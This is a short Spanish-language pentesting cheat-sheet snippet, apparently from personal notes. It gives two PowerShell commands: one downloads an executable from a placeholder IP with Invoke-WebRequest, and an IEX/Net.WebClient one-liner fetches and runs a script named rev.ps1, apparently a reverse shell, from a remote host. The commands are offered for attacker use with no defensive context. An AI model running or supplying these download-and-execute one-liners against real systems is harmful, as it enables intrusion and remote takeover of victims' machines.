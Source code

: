 ####  Descarga de FIchero 

``` Powershell
Invoke-WebRequest <http://IP/FILE.exe>  -outfile <output_file_name>
```


#### Descarga de script ps1. y ejecucion

`powershell "IEX(New-Object Net.WebClient).downloadString('http://IP/rev.ps1')"`